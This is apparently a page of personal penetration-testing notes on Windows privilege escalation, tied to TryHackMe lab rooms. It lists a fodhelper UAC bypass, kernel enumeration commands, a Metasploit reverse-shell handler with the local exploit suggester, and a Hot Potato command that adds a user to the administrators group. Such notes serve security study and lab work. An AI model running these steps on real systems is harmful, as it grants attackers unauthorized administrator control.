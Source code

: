 ## UAC bypass
Check out [[Bypassing-Windows-User-Account-Control]] for more!
```powershell
# If Windows 10 build 1709, Microsoft's fodhelper.exe
# Admin user can silently bypass
# Settings -> Apps & features ->  Manage optional features
fodhelper.exe # by default runs on High Integrity 
# Sysinternals sigcheck to inspec manifest
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

## Kernel exploits for the BRAVE
Enumerate the [[Windows-Kernel]]
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
```
Research potential exploit...

[[Metasploit]] modules:
```bash
msfconsole -> use multi/handler -> set payload - >set lhost -> run
# msfvenom your tailoured shell for targeting architecture professionalism
# copy shell to Windows box and run it
# On attack box
run post/multi/recon/local_exploit_suggester
# For example 
# identify exploit/windows/local/ms16_014_wmi_recv_notif
set session [sessionnumber]
set lport [portnumber]
run
```

## Hot Potato
```powershell
powershell.exe -nop -ep bypass
https://github.com/Kevin-Robertson/Tater.git
Import-Module C:\Path\To\HotPotato.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```


## References

[THM Windows PrivEsc Room](https://tryhackme.com/room/windowsprivesc20)
[THM Lay of the Land Room](https://tryhackme.com/room/thelayoftheland)
[Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)